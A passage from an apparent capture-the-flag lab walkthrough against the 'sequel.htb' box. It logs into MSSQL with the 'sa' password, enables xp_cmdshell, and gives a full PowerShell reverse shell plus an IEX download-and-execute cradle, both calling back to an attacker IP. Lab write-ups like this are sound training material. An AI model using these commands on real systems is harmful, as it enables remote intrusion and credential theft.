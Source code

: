 ```
sa:MSSQLP@ssw0rd!
```

```
nxc mssql sequel.htb0 -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth
```

<img width="1028" height="83" alt="image" src="https://github.com/user-attachments/assets/11d6c668-bf9c-46f5-9c83-91b6bd216ab6" />


### I use impacket-mssqlclient to connect to the mssql server 

```
impacket-mssqlclient sequel.htb0/'sa:MSSQLP@ssw0rd!'@10.10.11.51
```

### I enable the cmdshell with :

```
enable_xp_cmdshell
```

<img width="1122" height="655" alt="image" src="https://github.com/user-attachments/assets/ab2b6f06-4afd-4ab7-81e7-eff7120df168" />


### I execute cmd with a shell created like this :

```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.19',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.19:8000/shell.psi")
```

### And get Shell on the box 

<img width="1050" height="245" alt="image" src="https://github.com/user-attachments/assets/269c0f03-8de1-406a-8613-4518e68d7f25" />


### In "C:\SQL2019\ExpressAdv_ENU" we fount a new passwd : "WqSZAF6CysDQbGb3"

<img width="701" height="537" alt="image" src="https://github.com/user-attachments/assets/177174e4-e793-404c-aa37-2e8d9a9b1374" />


### And we enumerate all the user on the box with

```
net user
```
